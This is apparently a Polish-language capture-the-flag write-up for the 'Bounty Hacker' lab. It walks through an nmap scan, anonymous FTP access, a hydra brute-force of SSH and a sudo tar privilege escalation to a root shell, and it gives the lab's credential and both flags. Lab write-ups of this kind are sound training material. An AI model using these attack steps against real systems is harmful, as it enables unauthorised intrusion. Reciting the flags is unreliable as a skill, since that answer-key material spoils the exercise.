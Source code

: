 # Bounty Hacker
IP=10.10.215.100

## Rekonesans
Przeprowadzamy wstępny skan za pomocą narzędzia nmap:

```
sudo nmap -sV -sC 10.10.215.100
```

Otrzymujemy następujące wyniki:

```
Starting Nmap 7.92 ( https://nmap.org ) at 2024-08-05 11:48 EDT
Nmap scan report for 10.10.215.100
Host is up (0.060s latency).
Not shown: 967 filtered tcp ports (no-response), 30 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.9.231.66
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 dc:f8:df:a7:a6:00:6d:18:b0:70:2b:a5:aa:a6:14:3e (RSA)
|   256 ec:c0:f2:d9:1e:6f:48:7d:38:9a:e3:bb:08:c4:0c:c9 (ECDSA)
|_  256 a4:1a:15:a5:d4:b1:cf:8f:16:50:3a:7d:d0:d8:13:c2 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 46.57 seconds
```

Zostały wykryte 3 porty.

## Skanowanie

### Port 80
Rozpoczynamy od sprawdzenia portu 80, jednak nie ma tam nic ciekawego:

![80](img/80.JPG)

### Port 21
Przechodzimy do sprawdzenia portu 21, ponieważ logowanie Anonymous jest dozwolone. Logujemy się do systemu jako "Anonymous" i pobieramy wszystkie pliki:

![FTP](img/FTP.JPG)

Widzimy, że pliki zawierają listę haseł oraz notatkę napisaną przez użytkownika "lin":

![Lin](img/Lin.JPG)

### Port 22

Przeprowadzamy atak na serwis SSH za pomocą narzędzia hydra:

```
hydra -l lin -P /home/kali/locks.txt ssh://10.10.215.100
```

![Hydra](img/Hydra.JPG)

Logujemy się do serwisu SSH:

```
lin:RedDr4gonSynd1cat3
```

![SSH](img/SSH.JPG)

Odczytujemy pierwszą flagę z pliku user.txt:

![Flag1](img/Flag1.JPG)

```
THM{CR1M3_SyNd1C4T3}
```

## Zwiększenie poziomu uprawnień

Sprawdzamy uprawnienia użytkownika lin w systemie:

![Sudo](img/Sudo.JPG)

Widzimy, że użytkownik lin jest w stanie wykonać komendę "tar", jako root. W celu zwiększenia uprawnień wykorzystujemy exploit ze strony [gtfobins](https://gtfobins.github.io/gtfobins/tar/):

![Tar](img/Tar.JPG)

```
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```

Po wpisaniu komendy uzyskujemy uprawnienia root'a:

![Root](img/Root.JPG)

Odczytujemy drugą flagę z pliku root.txt:

![Flag2](img/Flag2.JPG)

```
THM{80UN7Y_h4cK3r}
```

Do zobaczenia na kolejnych CTF-ach!
